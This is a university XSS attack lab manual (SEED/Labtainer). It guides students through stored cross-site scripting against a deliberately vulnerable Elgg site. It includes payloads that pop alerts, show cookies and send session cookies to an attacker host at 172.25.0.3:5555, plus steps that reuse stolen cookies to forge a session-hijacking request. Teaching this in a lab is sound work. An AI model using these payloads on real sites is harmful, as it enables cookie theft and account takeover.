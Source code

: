 ![](media/b80e0eacca6dad9d42b5dc3545946591.png)

Cross-Site Scripting (XSS) Attack Lab
=================================

__Copyright © 2014 Wenliang Du, Syracuse University.
The development of this document is/was funded by the following grants from the US National Science
Foundation: No. 1303306 and 1318814. This lab was imported into the Labtainer framework by the Naval
Postgraduate School, Center for Cybersecurity and Cyber Operations under National Science Foundation
Award No. 1438893. Permission is granted to copy, distribute and/or modify this document under the terms
of the GNU Free Documentation License, Version 1.2 or any later version published by the Free Software
Foundation. A copy of the license can be found at http://www.gnu.org/licenses/fdl.html.__

Overview
========

Cross-site scripting (XSS) is a type of vulnerability commonly found in web applications. This vulnerability makes it possible for attackers to inject
malicious code (e.g. JavaScript programs) into victim’s web browser. Using this malicious code, the attackers can steal the sensitive information, such as session cookies. The access control policies employed by browsers using session cookies, for example, can be bypassed by exploiting the XSS vulnerability. Vulnerabilities of this kind can potentially lead to large- scale attacks.

  

Lab Environment
===============

Once you have logged into your range account and accessed your Labtainer-VM, open a terminal window.

Navigate to the “labtainer-student” directory and start the lab using the command:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
$ labtainer xsite
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-   Links to this lab manual will be displayed if you wish to view the prompt
    from within your VM
    
 **If a network error occurs during a lab, stop the lab using 'stoplab' and enter 'docker network prune' in the terminal. Restart the lab with 'labtainer $labname'.
    
Scenario
===============

To demonstrate what attackers can do by exploiting XSS vulnerabilities, you will work will a web application named Elgg. Elgg is a popular open-source web application for social networking. Although it has implemented a number of countermeasures to remedy XSS threas, these countermeasures are removed in Elgg in your installation. This makes the Elgg site vulnerable to XSS attacks. Users can post any arbitrary message, including JavaScript programs, to the user profiles. 

In this lab, you will exploit this vulnerability to launch an XSS attack on the modified Elgg, in a way that is similar to what Samy Kamkar did to MySpace in 2005 through the notorious Samy worm. The ultimate goal of this attack is to spread an XSS worm among the users, such that whoever views an infected user's profile will then be infected them selves, and whoever is infected will add you (i.e., the attacker) to his/her friend list.

Environment Configuration
===============

This lab includes three networked computers as shown in Figure
>   [1.](#_bookmark0) 

The "vuln-site" runs the Apache web server and the Elgg web applications. The "attacker" and "victim" computers each include the Firefox browser. Use the browser Web Developer / Network tool (upper right menu), to inspect the HTTP requests and responses.

![](media/e42177508edcc836bbe205d1065f8c37.jpg)

Figure 1: Cross site scripting lab topology

   **Starting the Apache Server.** The Apache web server will be running when the lab commences. If you need to restart the web server, use the following
   command:
```
$ sudo systemctl restart httpd
```

   **The Elgg Web Application.** There are several user accounts on the Elgg server [http://www.xsslabelgg.com](http://www.xsslabelgg.com/) and the credentials are given below.

| User    | UserName | Password    |
|---------|----------|-------------|
| Admin   | admin    | seedelgg    |
| Alice   | alice    | seedalice   |
| Boby    | boby     | seedboby    |
| Charlie | charlie  | seedcharlie |
| Samy    | samy     | seedsamy    |


 **Other software.** Some of the lab tasks require some basic familiarity with JavaScript. Wherever necessary, JavaScript examples are provided to help get you started. To complete task 3, you will need a utility to watch incoming requests on a particular TCP port. The home directory on the attacker computer contains an ”echoserver” directory with a program (written in C) that can be configured to listen on a particular port and display incoming messages.

Task 4 requires modifications to, compilation and execution of a Java program on the attacker computer. This program is in the HTTPSimpleForge directory on the attacker computer, and that computer includes a JDK for compiling java.

Lab Tasks
===============

Task 1: Posting a Malicious Message to Display an Alert Window
===============
The objective of this task is to embed a JavaScript program in your Elgg profile, such that when another user views your profile, the JavaScript program will be executed and an alert window will be displayed. 

- From the attackers terminal,  open a browser useing the command "firefox".
- Within this browser go to the site: http://www.xsslabelgg.com
- Log into the social networking site with Samy's credentials. (see table above)
- Navigate to your profile page *square icon with avatar shadow in upper-left corner
- Select "edit profile"

The "Brief Description" section will be rendered in other users' browsers when they visit your page.  This is where you (Samy) will place your scripts.

- Try using the following JavaScript snippet to display an alert window in the browser of anyone visiting your profile page:
```
<script>alert('XSS is bad');</script>
```
- After saving this, you will be returned to your profile page.  This shoud cause the browser to render this script and provide a pop-up alert. Try loggin out and testing this from an innocent victim's account.  

- You will have successfully completed this task once you have been able to get a pop-up alert (with a message) to appear upon any browser session open to Samy's profile page.

Bonus Info
=====

In this example, the JavaScript code is short enough to be typed into the short description field. If you want to run a longer JavaScript snippet, but you are limited by the number of characters you can type into the form, you can take a different approach. 

Store the JavaScript program in a standalone file, save it with the .js extension, and then refer to it using the 'src' attribute in the <script> tag. See the following example:

```
<script type="text/javascript"
src="http://www.example.com/myscripts.js">
</script>

```

In the above example, the page will fetch the JavaScript program from [http://www.example.com](http://www.example.com/), which can be any location that you have chosen to host this script at (attacker's web server for example).

Task 2: Posting a Malicious Message to Display Cookies
===============

The objective of this task is to embed a JavaScript program in your Elgg profile, such that when another user views your profile, the user’s cookies  will be displayed in the alert window. This can be done by adding some additional code to the JavaScript program in the previous task.

- Using the same process as before, try displaying the session cookie in the alert pop-up:

```
<script>alert(document.cookie);</script>
```

- You will have successfully completed this task once you have been able to get a pop-up to appear upon any browser session open to Samy's profile page, which displays the user's cookie.

Task 3: Stealing Cookies from the Victim’s Machine
===============

In the previous task, the malicious JavaScript code displays the user’s cookie information, but only the user can see this cookies. This is not helpful to an attacker. In this task, the attacker will use JavaScript code to send the cookies to himself/herself, making them useful for session highjacking. To achieve this, the malicious JavaScript code needs to send an HTTP request to the attacker, with the cookie information appended to the request.

We can do this by having the malicious JavaScript insert an *<*img*>* tag with its src attribute set to the attacker’s machine. When the JavaScript inserts the image (img) tag, the browser tries to load the image from the URL in the src field. This results in an HTTP GET request being sent to the attacker’s machine. 

- The JavaScript snippet provided below sends the cookie information to port 5555 of the attacker’s machine, where the attacker has a TCP server listening to the same port. 

**Note that in the output, the "=" character gets transformed to %3D (hex).
```
<script>document.write('<img src=http://172.25.0.3:5555?c='+ escape(document.cookie) + ' >');</script>

# The attacker's IP address  is 172.25.0.3
```
- The TCP server program on the attacker's machine will print out what it recieved. to start this application on the attacker's machine, navigate to the "echoserver" directory.
- Access the "README" file and figure out how to run this program.  You **MUST** start the schoserv program before doing the XSS so that the attacker's machine can recieve the cookie informaiton that is sent.

- You will have completed this task once you have successfully been able to transmit cookie information from a user's session to the attacker's machine and read this out through the echoserv program.


Task 4: Session Hijacking using the Stolen Cookies
===============

After stealing the victim’s cookies, the attacker can do whatever the victim can do to the Elgg web server, including adding and deleting friends on behalf of the victim, deleting the victim’s post, etc. Essentially, the attacker has hijacked the victim’s session. In this task, we will launch this session hijacking attack, and write a program to add a friend on behalf of the victim. The attack should be launched from another virtual machine.

To add a friend for the victim, we should first find out how a legitimate user adds a friend in Elgg. More specifically, we need to figure out what are sent to the server when a user adds a friend. Firefox’s Web Developer / Network tool can help us; it can display the contents of any HTTP request message sent from the browser. From the contents, we can identify all the parameters in the request.

- Log in as another user (charlie for example)
- Open the Web Developer > Network Tool in your firefox browser.
- Now add Samy as a friend.  Look at the "GET" request. Note the elgg_ts and elgg_token. Also note that Samy's's user ID is 42. These are unique for each user.

- **Remove Samy as a friend.

- In the attacker's terminal, navigate to the "/HTTPSimpleForge" directory on the attacker machine and open the "HTTPSimpleForge.java" program in the text editor leafpad:
 
 ```
 leafpad HTTPSimpleForge.java
 ```
- Change the following lines:

```
String requestDetails = "&__elgg_ts=1599761839&__elgg_token=88d6c723d87b0aee53aa7b5ef0aaec1c";
// URL to be forged.
URL url = new URL ("http://www.xsslabelgg.com/action/friends/add?friend=42"+requestDetails);
 ```
 ```
String cookies = "Elgg=cj1be6flek57vflghcdk2r2qb0";
 
```
- Save the file and close leafpad.

 **Note** Compile and run the java program using 
   
```
javac HTTPSimpleForge.java 
java HTTPSimpleForge
```


- The Elgg server cannot distinguish whether the request is sent out by the victim’s browser or by the attacker’s Java program. As long as we set all the parameters correctly, and the session cookie is attached, the server will accept and process the project-posting HTTP request. 
 
 - Check the friends that were added and note whether or note Samy was added.

**Note 1:** Elgg uses two parameters elgg ts and elgg token as a countermeasure to defeat another related attack (Cross Site Request Forgery). Make sure that you set these parameters correctly for your attack to succeed.

Submission
==========
   After finishing the lab, go to the terminal on your Linux system that was used to start the lab and type:
```
$ stoplab xsite

```


